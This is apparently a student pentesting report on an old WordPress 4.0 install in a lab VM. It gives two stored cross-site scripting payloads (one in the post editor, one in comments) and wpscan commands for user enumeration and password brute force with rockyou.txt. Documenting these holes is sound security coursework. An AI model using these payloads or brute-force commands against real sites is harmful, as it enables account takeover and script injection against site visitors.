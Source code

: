 Time spent: **6** hours spent in total

> Objective: Discover and demonstrate similar proofs-of-concept for at least an additional three and (up to five) exploits affecting an older version of WP.

## Pentesting Report

### 1. Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting
  - [x] Summary: Cross-site scripting vulnerability in the text editor box in pages and writing/editing posts.
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: <img src='https://imgur.com/ksX2aeC.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: 
    1. Create new post in your WordPress dashboard
    2. Edit WordPress post using the `Text Value` editor:
    ```html
    <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>`
    ```
  - [x] Affected source code: 
    - [Reference](https://klikki.fi/adv/wordpress3.html)
    - [Changelog](https://core.trac.wordpress.org/browser/branches/4.2/src/wp-includes/class-wp-editor.php?rev=33361)  
    
### 2. Vulnerability Name or ID: Unauthenticated Stored Cross-Site Scripting
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.1.2
  - [X] GIF Walkthrough: <img src='https://imgur.com/HabXwGe.gif' title='Video Walkthrough' width='800' alt='Video Walkthrough' />
  - [X] Steps to recreate: Go to any post to make a comment. In the comment part, use the following html:
  ```html
  <blockquote cite="hey" onmouseover=alert("XSS")>testing XSS
  ```
  - [X] Affected source code:
    - [Link](https://cedricvb.be/post/wordpress-stored-xss-vulnerability-4-1-2/)
  
    
### 3. Vulnerability Name or ID: Password Brute Force Attack
  - [x] Summary: Using rockyou.txt wordlist and wpscan, together with the user enumeration shown in number 2, the password of a particular username can be guessed by brute force because wordpress by default does not limit the number of login attempts.
    - Vulnerability types: Login Vulnerability
    - Tested in version: 4.0
    - Fixed in version: -
  - [x] GIF Walkthrough: <img src='https://imgur.com/1fMEf1i.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />i
  - [x] Steps to recreate: 
    1. Get `wordlists` library and extract `rockyou.txt` (in Kali VM):  
      ```shell
      $ apt-get install wordlists
      $ cd \usr\share\wordlists\
      $ gzip -d rockyou.txt.gz
      ```  
      2. Get list of users (in Kali VM):
      ```shell
      $ wpscan --url wpdistillery.vm --enumerate u
      ```
      3. Pick a user and run attack (in Kali VM):
      ```shell
      $ wpscan --url wpdistillery.vm --usernames '<user-name>' --passwords /usr/share/wordlists/rockyou.txt
      ```
  - [x] Affected source code:
    - [Github](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- GIFs created with [EZ Gif](https://ezgif.com).

## Notes

Had to change `Permalink` settings in WordPress in order to get pages to load - otherwise a `Not Found` screen was displayed.

## License

    Copyright [2018] [Ayushya Amitabh]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
